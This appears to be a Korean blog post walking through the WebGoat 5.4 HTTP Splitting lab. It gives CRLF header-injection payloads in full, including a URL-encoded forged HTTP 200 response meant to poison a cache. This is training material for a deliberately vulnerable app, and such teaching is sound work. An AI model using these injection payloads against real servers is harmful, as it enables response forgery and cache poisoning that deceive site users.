 ```yaml
---
layout: post
title:  "WebGoat 5.4 - HTTP Splitting 풀이"
date:   2017-09-24 18:26:02 +0900
category: Computer-Security
---
```


**'HTTP Splitting'** 문제는 두 가지의 스테이지가 있습니다.

하나는 HTTP Request 헤더를 변조하여 원하는 화면을 띄우는 것이고, 나머지 하나는 캐시를 사용하여 서버가 변조된 페이지를 응답하도록 하는 것입니다.

첫 번째 스테이지에서는 `CR (%0d)`와 `LF (%0a)`를 사용하여 해결합니다. `CR (%0d)`와 `LF (%0a)`는 줄을 바꾸기 위해 사용되는 개행문자 인데, 이를 이용하여 공격자가 원하는 HTTP Request를 생성할 수 있습니다.

'Search by country'에 Korea라고 입력한뒤, 'Search!' 버튼을 누르면 `language=korea`로 서버에 전송됩니다.

이때 우리가 서버에 보내지는 데이터를

```
language=korea
Content-length: 0
```

로 전송하게 되면, 서버는 `Content-length`가 0으로 알고 body에 아무것도 없는 줄 알게 되어 데이터의 내용을 감출 수 있게 됩니다.

이때 `language=korea` 다음 줄에 `Content-length: 0`를 넣기 위해 `CR (%0d)`와 `LF (%0a)`를 사용합니다.

WebGoat에서 '[PHP Charset Encoder](http://yehg.net/encoding/)'를 사용하면 유용할 거라고 힌트를 주고 있는데, 접속하여 `Content-length: 0`를 encodeURIComponent 합니다.

나온 값 `Content-length%3A%200` 앞에 `korea%0d%0a`를 추가하여 `korea%0d%0aContent-length%3A%200`를 'Search by country'에 입력한뒤, 'Search!' 버튼을 누르면 성공했다는 문자가 나옵니다.

![WebGoat 5.4 - HTTP Splitting]({{ site.url }}/assets/image/2017-09-24-WebGoat-HTTP-Splitting-Solution_1.png)

![WebGoat 5.4 - HTTP Splitting]({{ site.url }}/assets/image/2017-09-24-WebGoat-HTTP-Splitting-Solution_2.png)

![WebGoat 5.4 - HTTP Splitting]({{ site.url }}/assets/image/2017-09-24-WebGoat-HTTP-Splitting-Solution_3.png)

다음 단계는, `Last-Modified` 헤더를 추가한 뒤 미래의 날짜로 설정하여 변조된 페이지를 띄워주면 됩니다.

`Last-Modified`의 값이 맞지 않으면 브라우저는 `If-Modified-Since` 요청을 보내게 되는데, 서버에서는 브라우저가 보낸 `If-Modified-Since`를 확인해서 다르다면 새로운 내용을 전송해주고, 동일하다면 변경되지 않았다고만 응답을 하고 데이터는 전송하지 않습니다.

서버가 보내는 응답을 가로 채 '304 Not Modified'로 변조할 수 있는데 이것을 이용하면 됩니다.

```
korea
Content-length: 0

HTTP/1.1 200 OK
Content-Type : text/html
Last-Modified: Sun, 4 Oct 2020 14:30:00 GMT
Content-length: 47
<html><H1>Hello world!</H1></html> 
```

위의 내용을 '[PHP Charset Encoder](http://yehg.net/encoding/)'에 접속하여 encodeURIComponent 합니다.

나온 값 `korea%0d%0aContent-length%3A%200%0d%0a%0d%0aHTTP%2F1.1%20200%20OK%0d%0aContent-Type%20%3A%20text%2Fhtml%0d%0aLast-Modified%3A%20Sun%2C%204%20Oct%202020%2014%3A30%3A00%20GMT%0d%0aContent-length%3A%2034%0d%0a%3Chtml%3E%3CH1%3EHello%20world!%3C%2FH1%3E%3C%2Fhtml%3E`을 'Search by country'에 입력한 뒤, 'Search!' 버튼을 눌러 확인해봅니다.

![WebGoat 5.4 - HTTP Splitting]({{ site.url }}/assets/image/2017-09-24-WebGoat-HTTP-Splitting-Solution_4.png)

![WebGoat 5.4 - HTTP Splitting]({{ site.url }}/assets/image/2017-09-24-WebGoat-HTTP-Splitting-Solution_5.png)
